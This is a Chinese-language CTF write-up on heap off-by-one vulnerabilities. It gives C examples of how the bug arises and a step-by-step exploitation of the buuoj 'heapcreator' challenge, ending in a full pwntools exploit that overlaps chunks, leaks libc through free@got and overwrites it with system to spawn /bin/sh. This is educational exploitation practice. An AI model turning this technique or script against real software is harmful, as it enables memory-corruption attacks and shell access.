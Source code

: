 ```yaml
---
title: Off-By-One
tags: [ctf-pwn,heap]
date: 2022-11-27 19:00:00
categories: [ctf-pwn]
excerpt: 堆中的 off-by-one 漏洞, hitcon_heapcreator exp
---
```


#### Off-By-One漏洞如何产生

1. 循环多一次

   ```C
   x = malloc(10);
   for(int i=0;i<=10;i++)
   {
       x[i] = getchar();
   }
   ```

   x的下一个chunk第一个字节被溢出了

2. `strlen`和`strcpy`行为不一致

   ```C
   if(strlen(buffer)==100)
   {
       strcpy(chunk,buffer);
   }
   ```

   `strlen`返回值不算结束符'`\0`，而`strcpy`复制时会把结束符在内的101个字符复制过去
   
   

#### hitcon_creator

题目来源

<https://buuoj.cn/challenges#hitcontraining_heapcreator>

##### 1. create

![](/img/ctf-pwn/off_by_one/1.png)

从上述结构可以推断出heaparray是如下结构

```C
struct heaparray_item{
    int_64   size;
    char * content;
}
struct heaparray_item * heaparray[10];
```



##### 2. edit

```C
if ( *(&heaparray + v1) )
{
    printf("Content of heap : ");
    read_input(*((_QWORD *)*(&heaparray + v1) + 1), *(_QWORD *)*(&heaparray + v1) + 1LL);
    puts("Done !");
}
```

`read_input`读取size+1字节，出现了off_by_one漏洞

可以覆盖下一个chunk的size字段



##### 漏洞利用

1. 申请三个堆块，大小为0x18,0x10,0x10，加上三次size申请的0x10，一共6个chunk

    ![](/img/ctf-pwn/off_by_one/2.jpg)

2. 修改0号块，写入`/bin/sh`，然后再溢出`0x81`到下一个chunk的size

   ![](/img/ctf-pwn/off_by_one/3.jpg)

3. 这时delete chunk 1，会合并到前一个chunk（也就是1的size所在chunk）中

    ![](/img/ctf-pwn/off_by_one/4.jpg)

    观察bins，发现这个chunk被free到fastbin的0x80节点上（0x20上也有一个chunk是因为delete也会将size释放掉）

    ![](/img/ctf-pwn/off_by_one/5.jpg)

4. 申请一个新的chunk，将0x80这个块申请出来，因此malloc的大小需要为0x70

    同时，在2号的content位置写入`free@got`

    这时调用show(2)会泄露free的地址

    ![](/img/ctf-pwn/off_by_one/6.jpg)

5. 泄露libc基址找到system地址

6. `edit(2,p64(system_addr))`时，会修改content指针指向的内容，而content指针被`free@got`替换掉了，所以free的got表被修改成了`system@got`上的地址

7. 然后`delete(0)`时，首先要free掉`heaparray[0].content`上的内容，但是由于free被替换成了system，结果就变成了以content指针为参数调用system函数的情况，而`heaparray[0].content`恰好是之前写过的`/bin/sh`，因此执行了`system('/bin/sh')

   

##### 完整exp

> libcsearcher挑版本为2.23的

```python
from pwn import *
from LibcSearcher import *
r = process('./heapcreator')
#r = remote('node4.buuoj.cn',26117)
elf = ELF('./heapcreator')

def add(size,content):
    r.sendlineafter("choice :",'1')
    r.sendlineafter("Heap : ",str(size))
    r.sendlineafter("heap:",content)

def edit(idx,content):
    r.sendlineafter("choice :",'2')
    r.sendlineafter("Index :",str(idx))
    r.sendlineafter("heap : ",content)

def show(idx):
    r.sendlineafter("choice :",'3')
    r.sendlineafter("Index :",str(idx))

def delete(idx):
    r.sendlineafter("choice :",'4')
    r.sendlineafter("Index :",str(idx))

free_got = elf.got['free']

add(0x18,"MMMM")
add(0x10,"MMMM")
add(0x10,"MMMM")
#gdb.attach(r)

edit(0,b'/bin/sh\x00'+p64(0)*2+b'\x81')
#gdb.attach(r)

delete(1)
#gdb.attach(r)

add(0x70,p64(1)*8+p64(0x8)+p64(free_got))
show(2)
#gdb.attach(r)

free_addr = u64(r.recvuntil(b'\x7f')[-6:].ljust(8,b'\x00'))

#libc
libc = LibcSearcher('free',free_addr)
offset = free_addr-libc.dump('free')
system_addr = offset + libc.dump('system')

edit(2,p64(system_addr))
#gdb.attach(r)
delete(0)

r.interactive()
```

